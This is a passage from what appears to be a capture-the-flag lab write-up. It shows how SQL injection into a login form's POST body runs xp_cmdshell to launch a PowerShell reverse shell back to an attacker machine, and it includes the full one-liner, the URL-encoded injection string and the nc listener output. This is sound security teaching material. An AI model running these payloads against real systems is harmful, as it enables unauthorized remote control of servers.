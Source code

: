     PS C:\Windows\system32>whoami
    fighter\sqlserv



#### Reverse Shell \[Option 2\]

It also works to go right to a shell using a PowerShell one line reverse
shell. I'll grab one (PowerShell #1 from
[revshells.com](https://www.revshells.com/)), and put it in. It took a
good deal of tinkering to get it to work. For one, I had to enclose the
command in `"`. For the parts inside that were already in double quotes,
I tried single quotes, but that didn't work. However, escaping the
double quotes with `\` did. I'll also need to escape `>`, as
`xp_cmdshell` is invoking `cmd.exe` which will process that as output
redirection. I could just remove it (it's just printed as part of the
shell prompt), or escape it with `^` (as shown
[here](https://www.robvanderwoude.com/escapechars.php), thanks to
[egre55](https://twitter.com/egre55) for the link). I'll end up with the
`xp_cmdshell` string being:



    C:\windows\syswow64\windowspowershell\v1.0\powershell.exe "$client = new-object system.net.sockets.tcpclient(\"10.10.14.6\",443);$stream = $client.getstream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.read($bytes, 0, $bytes.length)) -ne 0){;$data = (new-object -typename system.text.asciiencoding).getstring($bytes,0, $i);$sendback = (iex $data 2>&1 | out-string );$sendback2 = $sendback + \"PS \" + (pwd).path + \"^> \";$sendbyte = ([text.encoding]::ascii).getbytes($sendback2);$stream.write($sendbyte,0,$sendbyte.length);$stream.flush()};$client.close()";



After URL-encoding and formatting that for the POST body, it looks like:



    logintype=3%3bexecute+xp_cmDshElL+'C%3a\windows\syswow64\windowspowershell\v1.0\powershell.exe+"$client+%3d+new-object+system.net.sockets.tcpclient(\"10.10.14.6\",443)%3b$stream+%3d+$client.getstream()%3b[byte[]]$bytes+%3d+0..65535|%25{0}%3bwhile(($i+%3d+$stream.read($bytes,+0,+$bytes.length))+-ne+0){%3b$data+%3d+(new-object+-typename+system.text.asciiencoding).getstring($bytes,0,+$i)%3b$sendback+%3d+(iex+$data+2>%261+|+out-string+)%3b$sendback2+%3d+$sendback+%2b+\"PS+\"+%2b+(pwd).path+%2b+\"^>+\"%3b$sendbyte+%3d+([text.encoding]%3a%3aascii).getbytes($sendback2)%3b$stream.write($sendbyte,0,$sendbyte.length)%3b$stream.flush()}%3b$client.close()"'%3b&username=admin&password=admin&rememberme=ON&B1=Login



Passing that as the post body returns a shell (this shell shows a prompt
after the first command output):



    oxdf@hacky$ sudo rlwrap -cAr nc -lvnp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.10.72 49207
    whoami
    fighter\sqlserv
    PS C:\Windows\system32>

